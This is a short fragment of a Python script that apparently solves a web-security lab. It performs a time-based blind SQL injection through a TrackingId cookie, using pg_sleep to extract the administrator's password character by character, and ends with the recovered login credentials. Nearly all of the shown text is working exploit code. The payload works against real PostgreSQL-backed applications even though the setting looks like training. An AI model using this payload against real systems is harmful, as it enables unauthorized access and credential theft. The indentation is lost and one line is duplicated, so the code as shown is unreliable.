query = f"2Feork45FYPU1V8J'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{position+1},1)='{character}')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--"
cookies = {'TrackingId': query, 'session': 'mDukomvL6ik2gZqS2CujoeB2Mq8akg7m'}
a = time.time()
response = requests.post(url, cookies=cookies, data=json_data)
b = time.time()
if b - a > 5:
passwd += character
break
position += 1
print(passwd)
print(passwd)Solution: Login with
administrator:6u53hrwurnzopzilf5rx